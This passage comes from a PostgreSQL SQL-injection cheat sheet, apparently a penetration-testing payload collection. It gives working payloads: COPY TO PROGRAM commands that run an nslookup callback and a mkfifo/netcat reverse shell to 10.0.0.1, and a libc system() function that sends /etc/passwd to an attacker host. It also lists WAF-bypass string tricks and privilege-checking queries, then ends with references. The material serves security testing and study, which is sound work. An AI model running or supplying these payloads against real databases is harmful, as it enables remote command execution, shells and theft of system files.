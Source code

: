 ```sql
COPY (SELECT '') to PROGRAM 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```


### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```


## PostgreSQL WAF Bypass

### Alternative to Quotes

| Payload            | Technique |
| ------------------ | --------- |
| `SELECT CHR(65)\|\|CHR(66)\|\|CHR(67);` | String from `CHR()` |
| `SELECT $TAG$This` | Dollar-sign ( >= version 8 PostgreSQL)   |


## PostgreSQL Privileges

### PostgreSQL List Privileges

Retrieve all table-level privileges for the current user, excluding tables in system schemas like `pg_catalog` and `information_schema`.

```sql
SELECT * FROM information_schema.role_table_grants WHERE grantee = current_user AND table_schema NOT IN ('pg_catalog', 'information_schema');
```

### PostgreSQL Superuser Role

```sql
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## References

- [A Penetration Tester's Guide to PostgreSQL - David Hayter - July 22, 2017](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
- [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - Leon Juranic - June 17, 2009](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - GreenWolf - March 20, 2019](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [Postgres SQL Injection Cheat Sheet - @pentestmonkey - August 23, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
- [PostgreSQL 9.x Remote Command Execution - dionach - October 26, 2017](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
- [SQL Injection /webApp/oma_conf ctx parameter - Sergey Bobrov (bobrov) - December 8, 2016](https://hackerone.com/reports/181803)